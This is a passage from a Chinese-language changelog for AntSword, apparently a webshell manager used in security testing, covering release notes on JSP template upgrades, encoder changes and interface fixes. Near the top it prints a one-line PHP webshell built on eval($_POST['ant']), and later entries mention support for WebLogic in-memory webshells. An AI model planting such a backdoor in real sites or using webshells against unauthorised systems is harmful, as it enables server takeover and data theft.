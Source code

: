 ```php
<?php phpinfo();eval($_POST['ant']);phpinfo();?>
```

因为 `phpinfo();` 会显示发送的 payload, 发送的 payload 中含有数据分割符，导致分割出错

*  移除 random 编码器

> 能够适配所有编码器的Shell比较少, 这个功能就略显鸡肋, 我们决定移除它

* JSP Template 升级至 [v1.5](https://github.com/AntSwordProject/AntSword-JSP-Template/releases/tag/1.5)
  * 支持解码器(返回包加密)
  * 兼容 JDK5
  * 修复base64编码问题&改正错别字
  * 修改获取当前目录的方式

### 其它

* 优化窗口关闭逻辑 #245

 * 点击最小化时，不再最小化至系统托盘。点击窗口的关闭按钮，最小化至系统托盘。
 * 点击托盘菜单中的「退出」程序退出。
 * 点击菜单中的「退出程序」程序退出。

* 「编码管理」新增新建「JSP解码器」

## 2021/02/06 `v(2.1.10)`

### 核心

* 升级 JSP Template 到 v1.4
  * 兼容 JDK6
  * 兼容 Weblogic 内存 Webshell
  * 优化报错信息
  * 解决windows下中文乱码的问题（win选择GBK编码，linux选择UTF-8编码）
  * 实战中只能获取到response的情况几乎没有，所以为了减少payload体积不再支持response作为入口参数
  * 增加用于测试 payload 的Web项目
  * 修复 java -jar xxx.war 启动时当前目录获取失败的问题

### 数据管理

* 修复 context menu category self-xss (thx @lixuesv)

### 其它

* 优化插件加载, 加载异常的插件不会再影响到其它插件加载了
* 更新纯真IP库(2021/02/02)
* 文档地址更换到语雀 https://www.yuque.com/antswordproject/antsword/
* 加入 404Team [404StarLink 2.0 - Galaxy](https://github.com/knownsec/404StarLink2.0-Galaxy)

 > 非常有幸能够加入星链计划, 大家有空可以了解一下星链计划，有许多很酷的安全项目, 你一定不想错过

### 插件相关


[medicaean-github]: https://github.com/Medicean
[peablog-github]: https://github.com/peablog
[loveshell-github]: https://github.com/loveshell
[Lupino-github]: https://github.com/Lupino